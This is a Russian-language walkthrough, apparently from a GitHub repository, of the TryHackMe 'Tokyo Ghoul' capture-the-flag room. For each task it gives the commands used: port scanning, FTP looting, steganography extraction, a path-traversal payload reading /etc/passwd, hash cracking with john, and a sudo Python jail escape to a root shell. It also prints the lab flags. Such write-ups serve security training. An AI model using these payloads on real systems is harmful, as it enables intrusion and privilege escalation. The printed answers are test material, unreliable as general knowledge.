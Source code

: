 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Tokyo Ghoul](https://tryhackme.com/r/room/tokyoghoul666) 

Всего 6 заданий:
## Задание 1
взеби дялмн????

Эта комната во многом вдохновлена  «Psychobreak»  и основана на аниме «Tokyo Ghoul».

Внимание: в этой комнате могут быть спойлеры «только к 1 и 2 сезонам», поэтому, если вам интересно посмотреть аниме, 
подождите, пока не закончите смотреть аниме, а затем возвращайтесь, чтобы заняться комнатой.

Машине потребуется некоторое время, просто возьмите воды или приготовьте кофе.



Эта комната содержит некоторые элементы, не относящиеся к pg13, в форме повествовательных описаний. Пожалуйста, 
продолжайте только на своем собственном уровне комфорта.

### Ответьте на вопросы ниже
Прочитайте выше
```commandline
Ответ не нужен
```
Разверните машину 
```commandline
Ответ не нужен
```

## Задание 2
Давайте проведем сканирование.

### Ответьте на вопросы ниже
Используйте nmap для сканирования всех портов 
```commandline
nmap -sSCV <IP>
```
```commandline
Ответ не нужен
```
Сколько портов открыто? 
```commandline
3
```
Какая операционная система используется?
```commandline
ubuntu
```

## Задание 3
Попробуйте осмотреться вокруг, может быть, что-то окажется полезным. 

### Ответьте на вопросы ниже
Ты нашел записку, которую тебе дали другие гули? Где ты ее нашел? 
```commandline
jasonroom.html
```
Какой ключ у исполняемого файла Rize?
```commandline
ftp <IP>
ls
cd need_Help?
ls
get Aogiri_tree.txt
cd Talk_with_me
ls
get need_to_talk
get rize_and_kaneki.jpg

cat Aogiri_tree.txt
chmod 777 need_to_talk  
./need_to_talk
strings need_to_talk
```
```commandline
kamishiro
```
Используйте инструмент, чтобы получить другую записку от Ризе.
```commandline
Ответ не нужен
```

## Задание 4
Ты должен мне помочь, я не могу терпеть боль, аа ...
### Ответьте на вопросы ниже
Что означает это сообщение? Вы его поняли? Что в нем говорится?
```commandline
./need_to_talk
# kamishiro
steghide extract -sf rize_and_kaneki.jpg 
# You_found_1t   
cat yougotme.txt
# Morse Code
# asciitohex
#  Base64
```
```commandline
d1r3c70ry_center
```
Видишь ли ты слабость в темноте? Нет? Просто ищи. 
```commandline
dirb http://<IP>/d1r3c70ry_center/
http://<IP>/d1r3c70ry_center/claim/
```
```commandline
Ответ не нужен
```
Что ты нашел? Взломай это
```commandline
Ответ не нужен
```
что такое имя пользователя rize?
```commandline
http://<IP>/d1r3c70ry_center/claim/index.php?view=%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd
```
```commandline
kamishiro
```
какой пароль у rize?
```commandline
vim hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
```commandline
password123
```

## Задание 5
Наконец-то я получил Ризе Кагуне, который помог мне сразиться с Джейсоном и получить root.

### Ответьте на вопросы ниже
пользователь.txt
```commandline
ssh kamishiro@<IP>
ls
cat user.txt
```
```commandline
e6215e25c0783eb4279693d9f073594a
```
корень.txt
```commandline
sudo -l
cat jail.py
sudo /usr/bin/python3 /home/kamishiro/jail.py
__builtins__.__dict__['__im' + 'port__']('pty').spawn("/bin/bash")
id
cat /root/root.txt
```
```commandline
9d790bb87898ca66f724ab05a9e6000b
```
## Задание 6
Вы можете связаться со мной в Discord: 0UR4N05#6231

Поздравляю, вы завершили комнату 1 Токийского гуля. Это первая комната, которую я когда-либо создавал, так что если она вам понравилась, пожалуйста, дайте мне знать в  Twitter  и отправьте мне свой отзыв в Twitter или Discord, и я буду очень признателен, если вам понравится эта комната и вы поделитесь ею со своими друзьями, спасибо.
### Ответьте на вопросы ниже
Спасибо
```commandline
Ответ не нужен
```
[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)